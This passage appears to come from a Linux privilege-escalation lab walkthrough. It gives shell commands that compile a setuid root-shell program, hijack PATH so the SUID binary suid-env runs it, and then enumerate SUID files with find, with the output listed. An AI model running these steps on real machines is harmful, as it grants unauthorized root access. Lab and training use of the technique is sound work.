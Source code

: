 
**Exploitation**

1. In command prompt type:
`echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
2. In command prompt type: `gcc /tmp/service.c -o /tmp/service`
3. In command prompt type: `export PATH=/tmp:$PATH`
4. In command prompt type: `/usr/local/bin/suid-env`
5. In command prompt type: `id`


![Env-Variables](/Images/linux_privesc_arena/env-var1.png)



## SUID (Environment Variables #2)


1. In command prompt type: `find / -type f -perm -04000 -ls 2>/dev/null`

```
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
1158726  912 -rwsrwxrwx   1 root     root       926536 Jun  1 03:30 /tmp/nginxrootsh
1158725  912 -rwsr-sr-x   1 root     staff      926536 Jun  1 03:24 /tmp/bash
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs
```

